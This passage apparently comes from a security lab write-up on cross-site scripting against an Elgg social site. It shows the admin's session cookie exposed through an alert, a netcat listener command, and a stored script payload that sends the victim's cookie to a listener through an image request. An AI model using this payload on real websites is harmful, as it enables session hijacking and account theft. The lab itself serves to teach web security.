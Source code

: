 ![](images/3-4-1.png)

Observation: Upon viewing Samy's profile, an alert window pops up displaying the cookie `Elgg=...`. This is the cookie of the admin's session, which can be confirmed by checking the cookie in console:

```javascript
document.cookie
"Elgg=9pc6n0glserddopj550jc6n5j0"
```

## 3.5 Stealing Cookies from the Victim's Machine

Launch the TCP server: (the attacker is on the same VM as the victim)

```bash
$ nc -l 5555 -v
```

Inserting the following code into the brief description field of Samy's profile:

```html
<script>document.write('<img src=http://127.0.0.1:5555?c=' + escape(document.cookie) + ' >');</script>
```

The TCP server receives a GET request with the cookie appended to the URL:

![](images/3-5-1.png)
